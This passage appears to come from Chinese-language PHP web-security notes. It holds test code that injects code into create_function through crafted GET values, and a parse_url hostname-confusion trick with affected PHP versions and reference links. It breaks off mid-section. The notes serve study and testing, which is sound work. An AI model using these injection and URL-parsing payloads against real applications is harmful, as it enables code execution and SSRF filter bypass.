 ### 测试代码

```php
<?php
error_reporting(0);

$_GET['arg1']='){}echo "arg1\n";{}#';
create_function($_GET['arg1'],'');

$_GET['arg2']='}echo "arg2\n";{';
create_function('',$_GET['arg2']);
```

## parse_url

### 参考

- https://skysec.top/2017/12/15/parse-url%E5%87%BD%E6%95%B0%E5%B0%8F%E8%AE%B0/
- https://skysec.top/2018/03/15/Some%20trick%20in%20ssrf%20and%20unserialize()/#trick2-libcurl-and-parse-url
- https://www.php.net/ChangeLog-5.php

### 错误的解析hostname

**参考**

- https://bugs.php.net/bug.php?id=73192

**利用范围**

- PHP5.x < php5.6.28
- PHP7.0 < php7.0.13

**测试代码**

demo.php

```php
<?php
echo parse_url("http://example.com:80#@google.com/")["host"]."\n"; #google.com
echo parse_url("http://example.com:80?@google.com/")["host"]."\n"; #google.com
echo file_get_contents("http://example.com:80#@google.com");       # example.com 
?>
```

### 不解析有端口但没有协议网址

**参考**

- https://bugs.php.net/bug.php?id=68917

**利用范围**

- PHP5.6 < PHP5.6.8
- PHP5.5 < PHP5.5.24
- PHP5.4.x
